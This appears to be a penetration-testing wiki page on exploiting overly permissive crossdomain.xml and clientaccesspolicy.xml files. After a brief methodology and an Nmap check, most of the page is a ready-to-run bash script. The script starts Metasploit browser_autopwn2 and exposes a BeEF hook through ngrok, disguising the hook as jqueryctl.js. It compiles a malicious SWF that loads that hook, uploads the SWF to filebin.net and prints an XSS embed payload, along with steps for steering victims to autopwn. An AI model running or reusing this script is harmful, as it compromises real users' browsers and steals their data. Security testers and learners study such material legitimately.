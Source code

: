 # RIA Cross Domain Policy

## Check List

* [ ] Review and validate the policy files.

### Methodology

#### Overly permissive Flash cross-domain policy (crossdomain.xml / clientaccesspolicy.xml)

{% stepper %}
{% step %}
CrossDomain.xml & clientaccesspolicy.xml file
{% endstep %}

{% step %}
Check and identify the presence of crossdomain.xml & clientaccesspolicy.xml files on the target using Nmap command
{% endstep %}

{% step %}
If the files exist, we run them using the next command, which is a script related to BeEF
{% endstep %}

{% step %}
Vulnerability Conditions The `crossdomain.xml` file is overly permissive (`<allow-access-from domain="*">`) Sensitive data or actions are accessible on the target domain
{% endstep %}

{% step %}
Exploit Modify the ActionScript to fetch sensitive data from the target domain and send it to a malicious server Compile the ActionScript into an SWF file
{% endstep %}

{% step %}
Capture Data Use a script to capture stolen data from the victim when they load the malicious SWF Direct the victim to a page with the malicious SWF, ensuring they are logged into the target site Review the data captured on the malicious server for sensitive information
{% endstep %}
{% endstepper %}

***

## Cheat Sheet

### Check Policy Files Weakness

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Check crossdomain.xml & clientaccesspolicy.xml
{% endhint %}

```bash
nmap -p 80,443 \
     -sS -sV --mtu 5000 \
     --script http-cross-domain-policy \
     --script-args http-cross-domain-policy.domain-lookup=true $WEBSITE
```

### [BeEF](https://github.com/beefproject/beef) (SWF)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beefer.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    printf "${GREEN}[*] sudo ./beef-csp-bypass.sh\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Run Ngrok
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y;use auxiliary/server/browser_autopwn2;set LHOST $WAN;set URIPATH /pwn;run -z" >/dev/null 2>&1 &
sleep 1
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi
printf "${GREEN}[*] BeEF with new configuration...${RESET}\n"

# Start BeEF XSS framework
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Create the SWF payload
cat <<EOF > /tmp/beef.as
package {
    import flash.display.MovieClip;
    import flash.net.URLRequest;
    import flash.net.navigateToURL;

    public class beef extends MovieClip {
        public function beef() {
            var request:URLRequest = new URLRequest("javascript:function myFunction(){var x = document.createElement('SCRIPT');x.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(x);};myFunction();");
            navigateToURL(request);
        }
    }
}
EOF
/opt/flex-sdk/bin/mxmlc /tmp/beef.as -output /tmp/logo.swf &>/dev/null &
rm -f /tmp/beef.as
printf "${GREEN}[*] SWF payload generated successfully...${RESET}\n"

# Upload to Filebin and Display Payload
bin_id=$(curl -s https://filebin.net | grep -oP 'href="https://filebin.net/(\w+)"' | sed -E 's/href="https:\/\/filebin.net\/([a-zA-Z0-9]+)"/\1/')
curl -s -X POST "https://filebin.net/${bin_id}/logo.swf" -H "Content-Type: application/x-shockwave-flash" --data-binary "@/tmp/logo.swf"
rm -f /tmp/logo.swf
clear
printf "\n\n"
printf "${CYAN}XSS Payload:${RESET}\n"
printf "\n"
printf "${YELLOW}<object type=\"application/x-shockwave-flash\" data=\"https://filebin.net/${bin_id}/logo.swf\"><param name=\"movie\" value=\"https://filebin.net/${bin_id}/logo.swf\"></object>"
printf "\n"
printf "${CYAN}BeEF Panel: https://${NGHOST}/ui/panel${RESET}\n"
printf "${CYAN}BeEF USER: unk9vvn${RESET}\n"
printf "${CYAN}BeEF PASS: 00980098${RESET}\n"
printf "\n"
printf "${GREEN}BeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute${RESET}\n"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beefer.sh;sudo ./beefer.sh
```
